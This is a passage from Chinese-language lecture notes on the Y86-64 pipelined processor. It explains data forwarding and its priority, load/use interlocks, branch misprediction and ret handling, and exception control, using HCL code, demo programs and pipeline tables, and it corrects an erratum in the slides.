因为 F 寄存器里的值就是“下一条要取的指令地址”的预测值。如果只停 D 而不停 F，那么在暂停的这几个周期里，取指仍会按 F_predPC 不断取新的指令字节进来，D 级却不动，取到的新指令就会被丢掉或与 D 级的旧指令混在一起；更糟的是，F 寄存器每周期都被新值覆盖，暂停结束后取到的可能已经不是“紧接着的那条指令”了。让 F 也保持不动，暂停期间就一直在“重复取同一条指令”，等暂停结束时正好把它送进 D 级——这就是教材说的“keep the program counter at a fixed value”。
常见问题：气泡和 nop 到底有什么区别？
行为上没有区别，来源上有区别。nop 是一条实实在在的指令：它占据指令存储器的 1 个字节，被取指、译码、执行、访存、写回，一路流过整条流水线；气泡是硬件在流水线寄存器里直接写入的复位值，它不是从内存取来的指令，只在注入的那个阶段之后“冒充”成 nop 往下流。所以课件 p.26 说“Hardware bubble == nop”：对流水线后面的各级来说，两者不可区分。暂停之所以能工作，正是因为它把“本该进入执行级的那条指令”替换成了一个什么都不做的气泡，同时把那条指令按在译码级，下一周期再试。
11.6 解法三：数据转发（课件 p.33–40）#
课件 p.33 的过渡页把问题问得更尖锐：“能不能既不停顿，又拿到正确的值？” 答案是数据转发（data forwarding，也叫旁路 bypassing，有的教材译作“前递”）。它的观察只有一句：值在写回之前就已经算出来了。irmovq 的值在执行级的 ALU 输出端就有了，mrmovq 的值在访存级的数据存储器输出端就有了；它们只是在等 W 级结束的那次写寄存器文件。既然值已经存在，何必等它写进寄存器文件？把它直接送回译码级，替换掉从寄存器文件读出的旧值即可。
课件 p.35–36 用两个例子说明转发怎样工作，图 10 照课件重画（模拟器运行结果，放大框里的值都取自模拟器日志）。
图 10 数据转发的两个例子（课件 p.35–36；模拟器运行结果）：(a) demo-h2 第 6 周期，%rax 的新值 3 在 W 级，经 W_valE 转发给 valB；(b) demo-h0 第 4 周期，%rdx 的新值在 M 级（M_valE = 10）、%rax 的新值在 E 级刚算出（e_valE = 3），分别转发给 valA、valB。红、蓝箭头表示转发的来源与去向
图 (a) 是 demo-h2（第二条 irmovq 与 addq 之间有 2 个 nop）。第 6 周期 addq 在译码级，要读 srcA = %rdx 和 srcB = %rax。%rdx 早在第 5 周期末就写进了寄存器文件，直接读出 10 即可；%rax 的新值 3 还在 W 级，要到本周期末才写入，寄存器文件里仍是旧值 0。不转发时，这正是图 7 (c) 里那个“valB = 0（错）”；有了转发，译码级发现 srcB 等于 W_dstE（都是 %rax），就不用寄存器文件读出的 0，而把 W 寄存器里的 W_valE = 3 直接作为 valB。
图 (b) 是更极端的 demo-h0（没有 nop）。第 4 周期 addq 在译码级时，第一条 irmovq 在访存级，它的结果 10 在 M_valE 里（M_dstE = %rdx）；第二条 irmovq 在执行级，ALU 本周期刚算出 e_valE = 0 + 3 = 3（E_dstE = %rax）。两个值都还没写回，但都已经存在于流水线中：于是 valA 取 M_valE = 10、valB 取 e_valE = 3，addq 一个周期都不用停就拿到了正确的操作数。与图 9 (b) 的连停 3 拍相比，转发把这段程序的代价降到了 0。图 11 画出了这些旁路在硬件上的走向：从执行、访存、写回三级的输出端，绕过寄存器文件，直接连回译码级的多路选择器。
图 11 数据转发的旁路（课件 p.38；教材图 4.52 的局部）：执行、访存、写回三级的五个结果（e_valE、M_valE、m_valM、W_valE、W_valM）经旁路送回译码级，由 Sel+Fwd A 与 Fwd B 两个逻辑块选择 valA、valB
转发带来一个新的问题：如果多个来源同时匹配，该选哪一个？ 课件 p.37 给的规则是“匹配顺序语义”：取最早阶段（也就是流水线里最靠后、程序顺序上最新）的那个值。原因是明显的：程序顺序执行时，后面写的值覆盖前面写的值。课件 p.37 用一段连续三次写 %rax 的程序说明这一点：
# demo-priority.ys：转发优先级（课件 p.37）
0x000: irmovq $1,%rax
0x00a: irmovq $2,%rax
0x014: irmovq $3,%rax
0x01e: rrmovq %rax,%rdx # 应当读到 3（最后一条 irmovq 的值）
0x020: halt图 12 是这段程序的流水线图（照课件 p.37 重画）。在第 5 周期，rrmovq 处在译码级，三条 irmovq 分别处在执行、访存、写回级：e_valE = 3（执行级）、M_valE = 2（访存级）、W_valE = 1（写回级），它们的目的寄存器都是 %rax。三个来源都匹配，按“最早阶段优先”选 e_valE = 3，%rdx 最终等于 3——这正是顺序执行的结果：三份值都“对”，但只有 e_valE 是程序顺序上最后写入的那个。模拟器给出的转发来源也是 e_valE，最终 %rdx = 3。
图 12 转发优先级（课件 p.37；模拟器运行结果）：第 5 周期 E、M、W 三级都要写 %rax，译码级按“最早阶段优先”选 E 级的 e_valE = 3（红色箭头），M_valE、W_valE 是更早写入、已被覆盖的旧值（灰色箭头）
表 14 列出全部五个转发来源。注意每个来源都携带一个数据字和一个寄存器号：数据字是要送回去的值，寄存器号用来和 srcA/srcB 比较。执行级只有 e_valE（ALU 刚算出的值）；访存级有两个可能的目的地，M_valE（ALU 结果在访存级等着写回）和 m_valM（内存刚读出的值）；写回级也有两个，W_valE 和 W_valM。五个来源恰好对应寄存器文件两个写端口的输入，再加上一个“更早一拍的”m_valM。
表 14 五个转发来源（教材 4.5.5；课件 p.38）
| 数据字 | 寄存器号 | 来源描述 | 何时使用 |
|---|---|---|---|
| e_valE | e_dstE | 执行级 ALU 输出 | 上一条指令刚在 E 级算完 |
| m_valM | M_dstM | 访存级的数据存储器输出 | 上上条指令是 mrmovq / popq，刚读出数据 |
| M_valE | M_dstE | 访存级的 ALU 结果（等着写回） | 上上条指令的 ALU 结果还在 M 级 |
| W_valM | W_dstM | 写回级的内存读出值 | 前面某条 mrmovq / popq 正要写回 |
| W_valE | W_dstE | 写回级的 ALU 结果 | 前面某条指令正要写回 |
把这张表与 11.2 节的图 5 对照可以看出，转发的硬件代价只是五条额外的旁路加上译码级的两个多路选择器（教材把它们叫 Sel+Fwd A 和 Fwd B）：Sel+Fwd A 同时承担了“valA 与 valP 合并”和“valA 转发”两项任务，Fwd B 只做 valB 的转发。这就是 11.2 节说过的那块 Select A 逻辑被扩展后的样子。
课件 p.39–40 给出 valA 的转发 HCL（valB 的版本只需删去第一行，并把 d_srcA 换成 d_srcB）：
# 译码级 valA 的选择：先看是不是 call/jXX，再按优先级转发，最后才用寄存器文件（课件 p.40）
word d_valA = [
# call / jXX 需要的是 valP（顺序地址），它在译码阶段被合并进 valA
D_icode in { ICALL, IJXX } : D_valP;
# 从执行级转发 ALU 结果
d_srcA == e_dstE : e_valE;
# 从访存级转发内存读出的值
d_srcA == M_dstM : m_valM;
# 从访存级转发 ALU 结果
d_srcA == M_dstE : M_valE;
# 从写回级转发内存读出的值
d_srcA == W_dstM : W_valM;
# 从写回级转发 ALU 结果
d_srcA == W_dstE : W_valE;
# 默认：用寄存器文件 A 口读出的值
1 : d_rvalA;
];这段 HCL 有三处容易读错，值得逐行解释。第一行特殊：当译码级的指令是 call 或 jXX 时，valA 里装的其实是 valP（11.2 节的 Select A），而不是从寄存器读出的值，所以这一行必须排在最前面，不能被任何转发条件抢先——call 要压栈的返回地址和 jXX 要用的顺序地址都不能被“某个寄存器刚被写”这种情形替换掉。后面五行是转发：先比执行级、再比访存级、最后比写回级，顺序就是优先级；每一行都要求源寄存器号与某个目的寄存器号相等，不相等就落到下一行，全部不成立才用寄存器文件读出的 d_rvalA。最后一行写“1 :”作为默认分支，是 HCL 情况表达式“否则”的写法。
注意这里比较的是小写的 e_dstE，而不是流水线寄存器里的 E_dstE。这是因为条件传送（cmovXX）在条件不成立时会把目的寄存器改成 RNONE（第 10 讲 10.7 节）：真正决定“这个值会被写到哪个寄存器”的是执行级现算的 e_dstE；如果用 E_dstE，被取消的条件传送仍会被当成“要写 rB”，转发就会把一个根本不会写回的旧值送到某条指令的操作数上。教材练习题 4.35 专门问过这个改动会引发什么错误。
常见问题：转发的值从 ALU 输出直接送到译码级，同一个周期里来得及吗？
来得及，而且这正是转发能够“零代价”的原因。译码级的多路选择器只需要在时钟上升沿之前稳定，而 e_valE 在周期内很早就算出来了（它只经过一级 ALU），比译码级选择器的最后期限早得多。可以这样想：这个周期 E 级算出的值，在本周期结束前就送到了 D 级选择器的输入端，下一个上升沿随指令一起被锁进 E 寄存器。整条转发路径不增加任何状态、不改变时钟周期，只增加组合逻辑的延迟和布线。
常见问题：既然转发这么好，为什么还需要停拍？
因为有一类值的产生时间太晚：加载/使用冒险。mrmovq 的值要到访存级才从数据存储器读出来，而它的下一条指令在译码级就需要这个值——要求 m_valM 在本周期结束前就送到译码级，等于要求数据存储器的读出在本周期内提前完成并送达，时间上做不到（教材说这相当于让值“逆着时间倒流”）。所以加载/使用是唯一还需要暂停的数据冒险，见 11.7 节。
表 15 解决数据冒险的三种方法对比
| 方法 | 做法 | 代价 | 评价 |
|---|---|---|---|
| nop（11.4 节） | 程序员或编译器在相关指令间插入空指令 | 每条相关 1～3 个周期 | 责任错位、性能差，真实机器不采用 |
| 暂停（11.5 节） | 硬件检测到相关就冻结 D、F，往 E 注入气泡 | 每条相关 1～3 个周期 | 对软件透明，但代价与 nop 一样大 |
| 转发（本节） | 把 E、M、W 级的结果直接送回译码级 | 0 个周期，只增加旁路与选择器 | 最终采用；只有加载/使用仍需停一拍 |
11.7 加载/使用冒险：唯一还需要停拍的数据冒险（课件 p.41–43）#
课件 p.41 指出转发的极限：有一类值产生得太晚。看下面这段程序（课件 p.41–42 的 demo-luh.ys，教材 prog5）：mrmovq 从内存读出一个值给 %rax，紧接着的 addq 要用 %rax 做操作数。
# demo-luh.ys：加载/使用冒险（课件 p.41–42；教材图 4.53）
0x000: irmovq $128,%rdx
0x00a: irmovq $3,%rcx
0x014: rmmovq %rcx,0(%rdx)
0x01e: irmovq $10,%rbx
0x028: mrmovq 0(%rdx),%rax # 从内存读出 3 放进 %rax（加载）
0x032: addq %rbx,%rax # 紧接着要用 %rax（使用）
0x034: halt把流水线图画出来就明白转发为什么救不了它（图 13 (a)，照课件 p.41 重画；这里假设流水线只有转发、没有任何暂停）。第 7 个周期 addq 处在译码级，需要在本周期结束前拿到 %rbx 和 %rax：%rbx 的新值 10 由上一条 irmovq 产生，此时在访存级（M_valE = 10），转发没有问题；但 %rax 要由 mrmovq 从内存读出，而 mrmovq 这一周期才刚进入执行级，要到第 8 个周期的访存级才能从数据存储器读出这个值（m_valM 在第 8 周期才有效）。转发只能把“已经存在于流水线中”的值送回译码级，第 7 周期 %rax 的新值根本还没有产生，于是 valB 只能读到寄存器文件里的旧值 0，结果算错（模拟器在这种“只有转发”的流水线上运行，最终 %rax = 10 而不是 13）。要把第 8 周期才出现的值送进第 7 周期就该结束的译码级，等于要求值倒着走时间。这就是加载/使用冒险（load/use hazard），教材说它是“唯一一类不能纯靠转发解决的数据冒险”。
图 13 加载/使用冒险（课件 p.41–42；模拟器运行结果）：(a) 只有转发时，第 7 周期 addq 需要 %rax，而 mrmovq 要到第 8 周期才读出它，valB 读到旧值 0；(b) 加载互锁让 addq 在译码级多停 1 拍、注入 1 个气泡，第 8 周期 %rbx 从 W_valE、%rax 从 m_valM 转发，两个操作数都正确
课件 p.42 给出的办法很朴素：让使用的那条指令停一拍（图 13 (b)）。停一拍之后，mrmovq 在第 8 周期进入访存级、把值读出来，而此时 addq 仍在译码级（它被按住了，图中 addq 的 D 格重复一次，中间插入一行气泡），正好可以用 m_valM 这根从访存级转发回来的线拿到值；%rbx 那条 irmovq 此时已走到写回级，改由 W_valE 转发。教材把这个机制叫作加载互锁（load interlock）：检测到加载/使用时暂停一次，之后靠转发完成，不需要再停。图 11 的旁路里本来就有 m_valM 这一路，所以加载/使用不需要新增任何硬件，只需要在控制逻辑里加一条检测条件。
课件 p.43 给出检测条件（教材图 4.64 的第三行）。条件要求两件事同时成立：执行级的指令是加载指令（mrmovq 或 popq，只有这两条会从内存读数据进寄存器），并且它的目的寄存器 dstM 正好是译码级指令要读的源寄存器之一。用 HCL 写出来就是一行：
# 加载/使用冒险的检测条件（课件 p.43；教材图 4.64）
bool load_use = E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB };注意条件里用的是 E_dstM（执行级流水线寄存器里的字段）而不是 e_dstE 之类现算的信号——加载指令的目的寄存器在译码阶段就算好了，随 E 寄存器传下来；源寄存器则是译码级现算的 d_srcA、d_srcB。还有一点容易漏：d_srcA、d_srcB 可能是 RNONE（0xF），而 E_dstM 也不可能是 0xF（mrmovq、popq 一定写寄存器），所以“0xF 误匹配 0xF”的情形在这里不会发生；但换成别的比较形式时就要特别小心，11.2 节的命名规则和 11.6 节的转发条件都踩过这个坑。
检测到加载/使用冒险之后，控制动作是暂停 F、D 两个寄存器，并往 E 注入气泡（表 16）。这与 11.5 节“全停”版本的动作一样，区别只是暂停的原因判据更窄：只有“执行级是加载指令且目的寄存器被译码级需要”才停，其他数据相关全都由转发解决。
表 16 加载/使用冒险的检测条件与动作（课件 p.43；教材图 4.64、4.66）
| 项目 | 内容 | 说明 |
|---|---|---|
| 检测条件 | E_icode ∈ {IMRMOVQ, IPOPQ} 且 E_dstM ∈ {d_srcA, d_srcB} | 执行级是加载，且目的寄存器被译码级需要 |
| F 寄存器 | stall | 取指停住，避免重复取流 |
| D 寄存器 | stall | 把使用的那条指令按在译码级 |
| E 寄存器 | bubble | 执行级这个周期没有指令，注入气泡 |
| M、W 寄存器 | normal | 正常流动 |
| 停顿次数 | 1 个周期 | 之后靠 m_valM 转发，不再需要暂停 |
表 17 列出 demo-luh 的关键周期：在第 7 周期检测到加载/使用，D、F 停住、E 注入气泡；第 8 周期转发来源变成“%rbx ← W_valE = 10、%rax ← m_valM = 3”，addq 算出 13 并继续前进。整个程序 12 个周期完成，只注入了 1 个气泡。对比一下：如果按照 11.5 节的“全停”策略，addq 要停到 mrmovq 走过 W 级，也就是要停 2 拍；加载/使用检测把它减到 1 拍。
表 17 demo-luh 的关键周期（模拟器；%rax 的加载值 3 在第 8 周期由 m_valM 转发）
| 周期 | 译码级指令 | 转发来源 valA / valB | 说明 |
|---|---|---|---|
| 6 | mrmovq 0(%rdx),%rax | R[%rbx] / R[%rdx] | 加载进入译码级 |
| 7 | addq %rbx,%rax | M_valE = 10 / R[%rax] = 0 | 检测到加载/使用：d_srcB = %rax = E_dstM，暂停 |
| 8 | addq %rbx,%rax（重新译码） | W_valE = 10 / m_valM = 3 | 加载已在访存级读出值，转发成功 |
要强调的是，加载/使用是唯一需要停的数据冒险，这个结论并不是显然的，而是把五个转发来源逐一检查后得到的：ALU 结果在 E 级就有，内存结果在 M 级才有；译码级需要值的时间点是“本周期结束前”，所以 E、M 级产生的值都来得及（M 级的 m_valM 只差一点点）；只有“加载指令刚进 E 级、使用指令已在 D 级”这一种组合，值要到下一周期才出现。教材说“加载互锁加上转发就足以处理全部数据冒险”，理由正在于此。
常见问题：为什么 mrmovq 之后接 addq 要停，接 rmmovq 或 pushq 呢？
这取决于“值什么时候被需要”。addq 在执行级就要把 %rax 送进 ALU，所以必须在译码级拿到；而 rmmovq 和 pushq 把值只是存到内存里去，它们在执行级用的是地址（基址 + 偏移），要存的数据到访存级才需要。如果值到访存级才需要，就可以用一条额外的“加载转发”路径（教材图 4.70，把 m_valM 直接送到 M_valA）在 M 级用上，不必停拍。这正是作业题 4.57A 的内容，第三部分会详细展开。
常见问题：停了一拍之后，为什么不再停第二拍？
因为暂停把“使用指令”推后了一个周期，而加载指令只前进了一个阶段：第 7 周期 mrmovq 在执行级，第 8 周期它进入访存级并读出 m_valM；此时使用指令重新回到译码级，正好能拿到 m_valM。两者的相对距离从“相差 1 级”变成“相差 2 级”，而转发能覆盖所有“产生于 E、M、W 级”的值，所以一拍就够。如果流水线更深、或者加载延迟更长（比如高速缓存缺失），就需要更多的停顿或者别的机制，那是第 12、13 讲和更后面课程的内容。
11.8 控制冒险之一：转移预测错误（课件 p.45–51）#
数据冒险解决之后，流水线已经能做到“大部分指令不用停”。剩下的问题是控制冒险（control hazard）：取指阶段必须在不知道这条指令“下一步走到哪里”的情况下就取指令，一旦猜错，取进来的指令就是错的。课件 p.45 用一张分节页把问题分成两种：条件跳转（Branch）与返回（Return）。
课件 p.46 的设问页把难点摆出来：执行完 jne 之后，处理器该执行哪条指令？答案是“要等到执行阶段才知道”——而取指阶段在 jne 还在 F 级的时候就必须决定下一步取哪里。本讲的策略（课件 p.47，11.2 节表 8 已列）是总是预测跳转：对条件跳转也预测下一条是 valC（跳转目标）；课件说这个猜测大约有 60% 的正确率（2026 版课件在这一页上补注“> 95%”，指的是加上现代分支预测器之后的情况，本讲的 PIPE 仍然只有 60%）。
猜对时什么也不用做；猜错时，流水线里已经取进两条“错误路径”上的指令，必须把它们取消。课件 p.48 用 demo-j.ys 演示这个过程：
# demo-j.ys：一个"不应跳转"的条件跳转（课件 p.48）
0x000: xorq %rax,%rax # CC 变成 100（ZF = 1）
0x002: jne t # jne 要求 ZF = 0，此处不成立 -> 不该跳转
0x00b: irmovq $1,%rax # 顺序执行的下一条（fall through）
0x015: nop
0x016: nop
0x017: nop
0x018: halt
0x019: t: irmovq $3,%rdx # 跳转目标（不应执行）
0x023: irmovq $4,%rcx # 目标后一条（不应执行）
0x02d: irmovq $5,%rdx # 更后面（本来就不该取到）按“总是预测跳转”，取指阶段在取到 jne 之后就把 PC 预测成 valC = 0x019。图 14 是这段程序在 PIPE 上的流水线图（模拟器运行结果；课件 p.49 画的是不加控制时的情形，这里画的是加了控制之后的实际执行）。第 3 周期 F 级取到 0x019 的 irmovq，第 4 周期 F 级又取到 0x023 的 irmovq；与此同时 jne 自己走到了执行级，cond 部件用条件码算出 e_Cnd = 0——猜错了（紫色一列）。控制逻辑在这一周期发出指令：下一个时钟沿把 D、E 两级换成气泡。于是第 5 周期，两条错取的指令在图中变成灰色格子（它们已被气泡取代，不会再改变任何状态）；jne 来到 M 级，M_Cnd = 0、M_valA = 0x00b（它的 valP，即顺序执行的下一条地址），Select PC 选中 M_valA，F 级取到 0x00b 的 irmovq $1,%rax（蓝色一列），程序回到正确的路径上。
图 14 转移预测错误的处理（课件 p.48–51；模拟器运行结果）：第 4 周期 jne 在执行级发现猜错，0x019、0x023 两条错取的指令在第 5 周期被气泡取代（灰色格）；第 5 周期按 M_valA = 0x00b 取回正确的指令
表 18 demo-j 中各指令经历的阶段（模拟器；“气泡”表示该级被注入气泡）
| 指令 | 各阶段所在周期 | 被取消于 | 最终是否生效 |
|---|---|---|---|
| xorq %rax,%rax（0x000） | F1 D2 E3 M4 W5 | — | 是：CC = 100 |
| jne t（0x002） | F2 D3 E4 M5 W6 | — | 是：判定不跳转 |
| irmovq $3,%rdx（0x019，错取） | F3 D4，本应 E5 | 第 5 周期 E 级改为气泡 | 否 |
| irmovq $4,%rcx（0x023，错取） | F4，本应 D5 | 第 5 周期 D 级改为气泡 | 否 |
| irmovq $1,%rax（0x00b，正确） | F5 D6 E7 M8 W9 | — | 是：%rax = 1 |
这次取消之所以安全，是因为错误路径上的两条指令还没有改过任何程序员可见状态（课件 p.50：“No side effects have occurred yet”）。回想五级流水线里“谁能改状态”：只有执行级能改条件码、只有访存级能写内存、只有写回级能写寄存器文件。第 4 周期检测到误预测时，两条错误指令分别刚进入 E 级和 D 级，E 级这条的 icode 不是 OPq（是 irmovq，不设置条件码），所以连条件码都没被动过；它们要到后面的周期才可能写状态，那时已经被气泡取代了。检测条件和动作因此可以写得很简单（表 19）。检测发生在执行级，因为只有 jXX 走到执行级、cond 部件算出 e_Cnd，才知道当初的预测对不对；动作用两个气泡——E 级和 D 级——外加一个周期的取指修正（PC 选择逻辑在下一周期自动用 M_valA）。
表 19 转移预测错误的检测条件和动作（课件 p.49–51；教材图 4.64、4.66）
| 项目 | 内容 | 说明 |
|---|---|---|
| 检测条件 | E_icode == IJXX && !e_Cnd | 执行级是条件跳转且条件不成立（猜“总是跳转”猜错了） |
| F 寄存器 | normal | 取指照常，下一周期由 M_valA 把 PC 拨回正确地址 |
| D 寄存器 | bubble | 取消错取的第一条指令 |
| E 寄存器 | bubble | 取消错取的第二条指令 |
| M、W 寄存器 | normal | 正常流动 |
| 代价 | 2 个周期 | 两个气泡 |
⚠ 课件 p.49 时序图上的笔误
课件 p.49“Branch Misprediction Trace”图中，M 级寄存器旁标注的 M_valA = 0x007 是笔误，应为 0x00b：jne 在 0x002，长 9 字节，它的 valP = 0x002 + 9 = 0x00b，也就是顺序执行时应取的 irmovq $1,%rax 的地址。误预测恢复时 PC 选择逻辑取的正是这个 M_valA，模拟器实测恢复后 F 级取到的是 0x00b 的指令。2025 版课件同一页也是这个数，两版都没有更正。
常见问题：为什么误预测要在执行级检测，而不是在取指级就“小心一点”？
因为在取指级根本得不到答案。条件跳转是否成立取决于条件码，而条件码是之前某条指令在执行级设置的；等 jne 自己走到执行级、cond 部件算出 e_Cnd，已经是 3 个周期之后的事了。流水线要么等（那就等于每次都停 3 拍，浪费更大），要么猜。本讲选择猜“总是跳转”，代价是猜错时浪费 2 个周期。真实处理器会花大量硬件做更准的预测（BTFNT、两级自适应、TAGE……），把 60% 提高到 95% 以上，代价是猜错时的恢复更复杂。
11.9 控制冒险之二：ret 指令（课件 p.52–57）#
ret 比条件跳转更难猜：它的目标是“栈顶那个字”，理论上可以是任意地址，没有“跳/不跳”两个候选，只有“不知道”。课件 p.53 用 demo-retb.ys 演示：
# demo-retb.ys：ret 之后的取指（课件 p.53）
0x000: irmovq stack,%rsp # 初始化栈指针
0x00a: call p # 过程调用
0x013: irmovq $5,%rsi # 返回点
0x01d: halt
0x020: p: irmovq $-1,%rdi # 过程体
0x02a: ret
0x02b: irmovq $1,%rax # 不应执行
0x035: irmovq $2,%rcx # 不应执行
0x03f: irmovq $3,%rdx # 不应执行
0x049: irmovq $4,%rbx # 不应执行
0x100: stack:按 11.2 节的预测策略，ret 的预测 PC 是 valP = 0x02b。如果就这么让它流下去，流水线会依次取到 0x02b、0x035、0x03f 三条指令并把它们执行完——课件 p.54 的“Incorrect Return Example”画的正是这个错误：三条本不该执行的 irmovq 真的改了 %rax、%rcx、%rdx。等到 ret 走到访存级读出返回地址 0x013，流水线已经多做了 3 个周期的无用功，而且这些“脏”状态已经写进寄存器文件了。
课件 p.55 给出正确做法：ret 一进入流水线，就让取指阶段停住。具体说，ret 处在 D、E、M 级的这 3 个周期里，F 寄存器一直 stall（于是每个周期都在“重新取 0x02b”），同时 D 寄存器每个周期都注入气泡（于是 0x02b 取进来之后立刻被气泡取代，永远进不了 E 级）。等到 ret 走到 W 级，返回地址 W_valM 已经读出，f_pc 的第二行（W_icode == IRET : W_valM）把取指地址拨到 0x013，暂停解除。
图 15 是 demo-retb 在 PIPE 上的流水线图（照课件 p.55 重画，模拟器运行结果）。第 5 周期 ret 进入译码级（紫色一列），控制逻辑检测到它，于是从这一周期起 F 暂停、D 注入气泡：图中三行“bubble（取 0x02b）”就是这三次被取进来又立刻换成气泡的 0x02b，它们只在 F 格是真实的取指（浅橙色），之后的 D、E、M、W 都是气泡（灰色）。第 8 周期 ret 到达写回级，W_valM = 0x013（蓝色一列），Select PC 选中它，返回点 irmovq $5,%rsi 在这一周期被取进来。
图 15 ret 的处理（课件 p.55；模拟器运行结果）：ret 处在 D、E、M 级的第 5～7 周期，取指停住、译码级注入气泡；第 8 周期 ret 到达 W 级，按 W_valM = 0x013 取返回点
表 20 ret 的检测条件和动作（课件 p.55–57；教材图 4.64、4.66）
| 项目 | 内容 | 说明 |
|---|---|---|
| 检测条件 | IRET ∈ {D_icode, E_icode, M_icode} | ret 在译码、执行、访存三级中的任意一级 |
| F 寄存器 | stall | 停住取指，反复取 ret 的下一条（它随后会被气泡取代） |
| D 寄存器 | bubble | 把已经取进译码级的那条错误指令换成气泡 |
| E、M、W 寄存器 | normal | 正常流动（ret 自己继续往后走） |
| 代价 | 3 个周期 | 三个气泡 |
表 21 demo-retb 在 PIPE 上的关键周期（模拟器）
| 周期 | 各阶段（简） | 控制动作 | 说明 |
|---|---|---|---|
| 5 | D: ret；M: call p | ret 检测成立，F stall、D bubble | 取指停住，0x02b 被气泡取代 |
| 6 | E: ret；D: bubble | 同上 | 又取一次 0x02b，又换成气泡 |
| 7 | M: ret；E: bubble | 同上 | 第三次取 0x02b，再换气泡 |
| 8 | W: ret；F 取到 0x013 | 恢复正常 | W_valM = 0x013 被送进 f_pc |
| 9 | D: irmovq $5,%rsi | — | 返回点开始进入流水线 |
用模拟器跑这段程序，结果是 13 个周期完成（其中 3 个是气泡），%rsi = 5、%rdi = −1，而 0x02b 之后的四条 irmovq 一条都没有执行——%rax、%rcx、%rdx、%rbx 都还是 0，返回地址 0x013 也确实被 call 压进了栈（M[0xf8] = 0x013）。如果按照 p.54 的错误做法（不暂停），那三条指令会被真的执行，%rax、%rcx、%rdx 都会变成非零值，程序结果完全错了。
常见问题：为什么 ret 不能像条件跳转那样预测？
因为条件跳转只有两个候选（跳/不跳），猜错也知道往哪儿改；ret 的目标是从内存读出来的，在取指时根本不知道它在哪。教材在侧栏里介绍过一种专门的做法：在取指单元里放一个返回地址栈，每执行一次 call 就把返回地址压进去，每取到 ret 就把栈顶弹出来预测——绝大多数情况下 call/ret 是配对的，所以这个预测非常准。但那样就需要额外的硬件栈、以及预测失败时的恢复机制；本讲的 PIPE 为了简单，选择完全不预测，用 3 个周期的停顿换取确定性。
常见问题：暂停期间为什么一直重复取同一条指令？直接让取指停住不行吗？
“取指停住”正是通过让 F 寄存器保持不变实现的，而 F 寄存器里存的是“预测的 PC”。F 一停，指令存储器每个周期都在同一个地址上读出同一条指令——课件 p.55 的图里就画着三个连续的 F 格子，里面都是 0x02b 的那条 irmovq。这条指令每进一次 D 级就被气泡顶掉，所以它不会被真正执行。等到 ret 走到 W 级，f_pc 改用 W_valM，F 才在下一个周期装进 0x013。换句话说：ret 的 3 个周期停顿是“取指在空转”，而不是“流水线完全停止”——E、M、W 三级仍在正常推进 ret 自己。
11.10 异常处理（教材 4.5.6 节补充；课件未展开）#
到此为止，PIPE 已经能正确处理数据冒险和两种控制冒险：转发解决了大部分数据相关，加载互锁解决剩下的一种；误预测和 ret 用气泡取消。教材 4.5.6 节指出还差最后一件事：异常（exception）——它不在两版课件的正文里，是教材为完整起见补的内容。Y86-64 有三类内部异常——执行 halt 指令（状态 HLT）、遇到非法的指令代码（INS）、访问非法的地址（ADR，包括取指地址越界与数据地址越界）。ISA 对它们的要求是：异常指令之前的所有指令都已完成，异常指令本身及之后的所有指令都不得改变程序员可见状态，处理器带着相应的状态码停机。
在 SEQ 里这件事很简单：一条指令一个周期，发现 Stat 不是 AOK 就不写状态、停机。在流水线里却有三个麻烦，教材把它们逐个列了出来。
第一个麻烦是同一周期可能有多个异常。 例如取指级取到一条非法指令，而访存级的一条指令同时报告了地址错误。ISA 要求“更靠前的指令先完成”，所以应当报告流水线中走得最远的那条指令的异常——具体说，M 级的地址错误比 F 级的非法指令优先。处理办法不是去比较优先级，而是让状态码跟着指令一起流动：每条指令在取指时产生 f_stat，随 D、E、M、W 寄存器往下传，中途可能被访存阶段的地址错误升级成 SADR；处理器只在写回级看状态码，而写回级的指令一定是所有未完成指令中最老的一条，因此“最靠前的异常”自然被最先看到。
第二个麻烦是被取消的指令不该报异常。 误预测时取进来的“错误路径”指令可能本身就是非法指令（比如取到的字节是 0xFF），它在译码阶段就会被标成 SINS。但这条指令最终要被气泡取消，取消时它的 stat 字段也一起被气泡清掉，于是异常不会发生。教材说“把异常状态和这条指令的其他信息放在一起随流水线流动”，这个设计自动解决了这条麻烦。
第三个麻烦是后续指令可能在异常指令之前改状态。 流水线的各级在不同周期改不同的状态：执行级改条件码、访存级写内存、写回级写寄存器。如果一条指令在访存级发现地址错误，而它的下一条指令正在执行级准备改条件码，那么等异常最终停机时，条件码已经被“异常指令之后”的指令改过了，违反 ISA。教材举的例子是一段 pushq 把栈指针减到 0xfffffffffffffff8 造成地址错误、而紧随其后的 addq 会改条件码。
解决办法是给流水线控制逻辑加三条与异常有关的规则（教材图 4.64 的第四行、4.66 的扩展表）：
# 异常相关的控制信号（教材 4.5.8、4.5.6；练习题 4.41、4.42）
# 1) 有异常指令在访存级或写回级时，禁止执行级的指令改条件码
bool set_cc = E_icode == IOPQ &&
!(m_stat in { SADR, SINS, SHLT } || W_stat in { SADR, SINS, SHLT });
# 2) 访存级出现异常时，把访存级换成气泡：这条指令不能写内存，后面的指令也不能继续
bool M_bubble = m_stat in { SADR, SINS, SHLT } || W_stat in { SADR, SINS, SHLT };
# 3) 写回级出现异常时，把写回级停住：异常指令留在 W 级，流水线停在这里
bool W_stall = W_stat in { SADR, SINS, SHLT };
# 4) 处理器总状态取写回级指令的状态（气泡视为正常）
word Stat = [ W_stat == SBUB : SAOK; 1 : W_stat ];这三条规则的作用各不相同。set_cc 被置 0，是为了让“异常指令之后”的指令不能改条件码；M_bubble 被置 1，是为了让“异常指令之后”的指令进不了访存级、也就写不了内存（异常指令自己也在这一步被气泡顶掉，不再往下走）；W_stall 被置 1，是为了让异常指令永远留在写回级、不再前进，整条流水线就此停住。教材图 4.63 用 pushq 的例子画出了这一过程：第 6 周期 pushq 在 M 级报出地址错误，同一周期 addq 在 E 级本来要设置条件码，set_cc 被清零；之后 M、W 两级按规则把流水线冻结。
对照 11.11 节的动作表可以发现，2026 版课件 p.59 的“特殊控制情况”只列了 ret、加载/使用、误预测三种，没有把异常列进去（2025 版也没有）。教材的图 4.64 和 4.66 则把异常作为第四种情况并列列出。本讲义的这一节按教材补全，并把异常当作“第四种特殊情况”理解。课件 p.58 那句 “Are we done?” 引出的是 11.12 节的控制组合，与异常无关：三种特殊情况各自处理完还不算完，还要看它们同时出现的组合。
表 22 异常处理：检测条件与动作（教材图 4.64、4.66；教材 4.5.6 节，课件未展开）
| 项目 | 内容 | 说明 |
|---|---|---|
